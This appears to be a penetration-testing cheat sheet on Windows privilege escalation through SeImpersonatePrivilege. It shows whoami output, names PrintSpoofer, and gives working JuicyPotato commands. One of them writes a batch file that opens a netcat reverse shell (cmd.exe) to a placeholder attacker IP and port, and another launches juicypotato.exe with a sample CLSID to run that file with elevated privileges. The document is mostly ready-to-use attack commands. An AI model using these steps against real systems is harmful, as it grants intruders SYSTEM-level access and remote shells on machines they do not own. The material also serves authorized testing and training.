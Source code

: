 ### SeImpersonatePrivilege

whoami /all (privileges information)

SeImpersonatePrivilege = Enabled

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Privilege Escalation 1

```Windows 10``` and ```Server 2016```/```2019```

```LOCAL SERVICE```/```NETWORK SERVICE```/```iis apppool\defaultapppool```

Tool:[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Privilege Escalation 2

[JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```cmd
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
```

[CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

```cmd
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l <attacker port> -t * -c <CLSID>
REM -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
REM -p <program>: program to launch
REM -l <port>: COM server listen port
REM example
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l 4444 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```